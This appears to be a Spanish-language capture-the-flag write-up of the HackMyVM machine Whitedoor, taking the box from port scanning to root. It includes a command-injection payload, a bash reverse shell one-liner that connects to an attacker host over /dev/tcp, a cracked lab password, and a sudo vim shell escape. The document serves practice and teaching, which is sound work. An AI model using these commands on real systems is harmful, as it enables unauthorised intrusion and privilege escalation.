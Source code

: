 ```yaml
---
title: 'Whitedoor'
date: 2024-02-03T14:02:36-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'CTF', 'base64', 'bcrpyt', 'sudo', 'vim']
image:
  path: /assets/img/hmvm/whitedoor/whitedoor-0.png
---
```


¡Hola, hacker! ¡Bienvenido a un nuevo post!

En este artículo, abordaremos la resolución de la máquina [Whitedoor](https://hackmyvm.eu/machines/machine.php?vm=Whitedoor) de la plataforma HackMyVM. La máquina aloja un sitio web que presenta un formulario con un campo de entrada, el cual nos concede la capacidad de ejecutar comandos del sistema sin previa validación. De este modo, conseguimos acceso al sistema como el usuario `www-data`. A continuación, realizamos un movimiento lateral para obtener acceso como el usuario `whiteshell` al descifrar una contraseña codificada en base64, la cual encontramos en un archivo de texto plano. Posteriormente, nos enfrentamos al desafío de romper un hash codificado presente en un archivo `.txt`. Finalmente, aprovechamos una configuración inadecuada de `sudo` para elevar nuestros privilegios, logrando así una exitosa escalada de privilegios.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 20.20.20.9 -vvv -oG scanPorts
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-2.png)
_Descubrimiento de puertos abiertos_

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--open`: Solo considerar puertos abiertos.
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 -vvv -oN targeted 20.20.20.9
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-3.png)
_Descubrimiento de versión y servicio con nmap_

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.


## Explotación

### FTP

Como observamos en el escaneo anterior, el servicio `ftp` permite acceder con el usuario `anonymous`. En este caso, debemos ingresar como contraseña `anonymous@20.20.20.9`.
Al listar el contenido, nos encontramos con un archivo `README.md` el cual nos descargamos.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-4.png)
_README.md_

Al ver su contenido, nos muestra el siguiente mensaje: `¡Good luck!` :wink:.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-22.png)
_README.md_

### Usuario `www-data`

Continuamos explorando y accedemos al sitio web que se encuentra en ejecución en el puerto 80, donde nos encontramos con lo siguiente:

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-5.png)
_Web Whitedoor_

Contamos un campo de entrada, que al ingresar cualquier texto de prueba nos indica que solo el comando `ls` esta permitido.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-6.png)
_Permission denied. Only the ls command is allowed_

Si ejecutamos el comando `ls`, podemos ver que se listan algunos nombres de archivos.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-7.png)
_Web Whitedoor - ls_

Intentemos ejecutar más de un comando en la misma ejecución. En `bash`, podemos ejecutar varios comandos en una misma línea utilizando el punto y coma ; para separarlos. Utilizando la siguiente sintaxis:

```bash
comando1; comando2; comando3; comando4
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-8.png)
_Web Whitedoor - ls; id_

Observamos que efectivamente funciona. Logramos ejecutar el segundo comando después del punto y coma.

Teniendo en cuenta, que tenemos capacidad de ejecución de comandos, ejecutemos una reverse shell. Para lo cual, cremos un archivo (`shell.sh`) bajo el directorio `/tmp` el cual contiene nuestra reverse shell, todo esto desde un oneliner.

Antes de ejecutar nuestra reverse shell, pongámonos en escucha con netcat `nc` por el puerto 4444.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-10.png)
_netcat_

Ejecutamos la reverse shell.

```bash
ls; echo 'bash -i >& /dev/tcp/20.20.20.5/4444 0>&1' > /tmp/shell.sh; chmod +x /tmp/shell.sh; bash /tmp/shell.sh
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-9.png)
_Reverse shell_

De esta manera, ganamos acceso al sistema.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-11.png)
_Usuario www-data_

### Usuario `whiteshell`

Haciendo una enumeración básica del sistema, encontramos un archivo llamado `.my_secret_password.txt` bajo el directorio `Desktop` del usuario `whiteshell`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-12.png)
_Archivo .my_secret_password.txt_

Podemos determinar a que tipo de hash corresponde el conjunto de caracteres encontrado, utilizando la web [tunnelsup.com](https://www.tunnelsup.com/hash-analyzer/).

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-13.png){: width="500" height="250" }
_Hash Analyzer_

Vemos que no logra identificar ningun hash, pero nos indica que el tipo de caracteres corresponde con la codificación base64.

Si decodificamos esta cadena utilizando esta codificación, obtenemos una nueva cadena codificada en base64.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-14.png)
_Decodificación de cadena usando base64_

Decodificamos la nueva cadena usando nuevamente base64 y obtenemos la contraseña del usuario `whiteshell`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-15.png)
_Decodificación de cadena usando base64_

### Usuario `Gonzalo`

Realizamos nuevamente una enumeración básica al sistema y encontramos un archivo llamado `.my_secret_hash` bajo el directorio `Desktop` del usuario `Gonzalo` el cual contiene un hash codificado con el algoritmo *bcrypt*.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-16.png)
_Hash de la contraseña del usuario Gonzalo_

Usamos `john` para romper el hash y obtener la contraseña del usuario `Gonzalo`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-17.png)
_Crackeamos el hash usando john para obtener la contraseña_

`Gonzalo:qwertyuiop`

Nos logueamos como el usuario `Gonzalo` y leemos el flag de `user.txt`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-18.png)
_user.txt_

## Escalada de privilegios

Al realizar una enumeración del sistema, notamos que el usuario `Gonzalo` tiene la capacidad de ejecutar el editor `vim` con privilegios de `sudo`, sin requerir la contraseña (NOPASSWD).

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-19.png)
_sudo -l_

Si hacemos una búsqueda en GTFOBins, podemos ver que existen varias alternativas de poder escalar nuestros privilegios en este contexto [GTFOBins - vim](https://gtfobins.github.io/gtfobins/vim/#sudo), en este caso, usare la primera de ellas.

```bash
sudo vim -c ':!/bin/sh'
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-20.png)
_sudo vim_

De esta forma, logramos elevar nuestros privilegios y podemos leer el flag del archivo `root.txt`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-19.png)
_root.txt_

Así concluimos el Write-up de la máquina Whitedoor.

Espero que los conceptos hayan quedado claros. En caso de persistir alguna duda, te invito a repetir la máquina para afianzar tus conocimientos.

Gracias por tu lectura!

Happy Hacking!
